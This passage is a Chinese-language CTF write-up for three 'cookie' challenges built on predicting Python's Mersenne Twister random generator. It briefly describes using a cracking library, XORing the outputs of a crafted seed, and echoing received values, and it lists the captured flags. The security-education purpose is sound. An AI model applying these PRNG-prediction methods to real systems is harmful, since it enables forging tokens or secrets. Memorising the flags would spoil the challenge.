
~~遇到困难，打退堂鼓！~~
于是搁置了这题两三天，然后打算深入了解Python的梅森旋转算法尝试破解，先搜索一下吧！

嗯？怎么直接有库可以破解，那直接调库！
### Smol Cookie

第一题直接解就行，[源代码参见](prob08-cookie/cookies.py)
解得flag为`flag{Rand0M_1S_ez_2_pred1cT}`。

### Big Cookie

第二题直接随便构造一个（和它给的种子不相同的）种子，然后根据它的种子和自己的种子创建两个`Random`，然后将结果异或，过滤出未知生成器的序列，然后求解就行，[源代码参见](prob08-cookie/cookies2.py)
解得flag为`flag{CrafT1nG_seEd_cAn_b3_fUUun}`。
（其实并没看懂为什么用`crafting`，感觉随便构造都可以。）

### SUPA BIG Cookie

第三题我解的时候也感觉有bug，直接把收到的信息的`0x`删了然后复读就行了。~~果然克苏鲁的本质也是复读机吗~~
轻松解得`flag{pythoN_rAnd0m_sOo000oO0OOoo0OooO000_easy}`，[源代码](prob08-cookie/cookies3.py)。